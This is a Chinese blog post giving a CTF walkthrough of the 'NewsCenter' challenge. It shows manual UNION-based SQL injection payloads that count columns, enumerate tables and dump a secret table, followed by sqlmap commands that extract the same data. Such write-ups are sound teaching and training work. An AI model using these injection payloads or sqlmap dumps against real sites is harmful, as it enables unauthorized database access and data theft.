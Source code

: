 ```yaml
---
layout:     post               # 使用的布局（不需要改）
title:      NewsCenter     # 标题 
subtitle:    攻防世界   #副标题
date:       2020-07-13         # 时间
author:     yanmie             # 作者
header-img: img/.jpg    ##标签这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               
    - CTF
  
---
```



打开环境，像是一个新闻搜索网站。

![UY6z3q.png](https://s1.ax1x.com/2020/07/13/UY6z3q.png)

看到一个输入框想到`xss`或者`sql注入`。

xss无果，尝试sql注入。

## 手工注入

输入`hack'`，页面直接返回空白页，太不正常了，

这里时post提交数据，在输入`hack' #`,页面反正正常了。

![UYcHR1.png](https://s1.ax1x.com/2020/07/13/UYcHR1.png)

说明存在`sql注入`。

`hack' order by 4 #`页面返回空白，`hack' order by 3 #`页面返回正常，判断字段数为3.

判断回显，`hack' union select 1,2,3 #`

![UYg1yV.png](https://s1.ax1x.com/2020/07/13/UYg1yV.png)

爆出数据库 `hack' union select 1,version(),database() #`

![UYgNFJ.png](https://s1.ax1x.com/2020/07/13/UYgNFJ.png)

爆出表 `hack' union select 1,version(),group_concat(table_name) from information_schema.tables where table_schema=database() #`。发现有个表可疑`secret_table `

![UYgRfA.png](https://s1.ax1x.com/2020/07/13/UYgRfA.png)

爆出可以表的字段 `hack' union select 1,version(),group_concat(column_name) from information_schema.columns where table_name='secret_table' #`

![UYgbkQ.png](https://s1.ax1x.com/2020/07/13/UYgbkQ.png)

爆出内容。 `hack' union select 1,version(),group_concat(id,fl4g) from secret_table #`

![UY2Fh9.png](https://s1.ax1x.com/2020/07/13/UY2Fh9.png)

成功得到flag.

## sqlmap注入

这里再用sqlmap练习跑一下子。

将抓到的post包保存为`hack.txt`，

![UY2tnf.png](https://s1.ax1x.com/2020/07/13/UY2tnf.png)

`python2 sqlmap.py -r .\..\hack.txt`先进行一波分析吧。

![UYRIIg.png](https://s1.ax1x.com/2020/07/13/UYRIIg.png)

我们可以看到sqlmap给我们抛出了好多有用的信息。

他告诉我们可以进行布尔盲注、联合查询、时间盲注、联合查询，并且给了我们对应的payload.

`python2 sqlmap.py -r .\..\hack.txt --dbs`跑一跑数据库

![UYWfp9.png](https://s1.ax1x.com/2020/07/13/UYWfp9.png)

`python2 sqlmap.py -r .\..\hack.txt -D news --tables`跑一跑news数据库的表。

![UYWxXt.png](https://s1.ax1x.com/2020/07/13/UYWxXt.png)

`python2 sqlmap.py -r .\..\hack.txt -D news -T secret_table --columns`跑一跑字段

![UYf39J.png](https://s1.ax1x.com/2020/07/13/UYf39J.png)

`python2 sqlmap.py -r .\..\hack.txt -D news -T secret_table -C fl4g --dump`跑内容

![UYhMrt.png](https://s1.ax1x.com/2020/07/13/UYhMrt.png)